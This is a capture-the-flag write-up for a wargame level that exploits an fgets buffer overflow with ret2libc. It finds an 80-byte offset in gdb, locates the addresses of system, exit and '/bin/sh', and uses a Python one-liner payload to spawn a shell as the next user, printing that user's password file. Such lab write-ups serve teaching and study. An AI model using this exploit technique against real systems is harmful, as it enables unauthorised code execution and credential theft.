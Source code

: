 In this level we will use a ret 2 libc.
Here we see that the `fgets` off the password read more than the size allowed.

Let's find where it overflow:
We use [Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to generate patterns.

```
(gdb) r
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_will
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

This give us an offset of `80`

Now let's find the required address to make a proper return to libc(with a real return address for `system`)

```
(gdb) start
(gdb) p system
$2 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$1 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) i proc map
process 1790
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcbfff, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Address of `system` in little endian : `\xd0\xae\xe6\xf7`
Address of `exit` in little endian : `\x70\xeb\xe5\xf7`
Address of `/bin/sh` in little endian : `\xec\x97\xf8\xf7`

```Shell
python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload
cat /tmp/payload - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
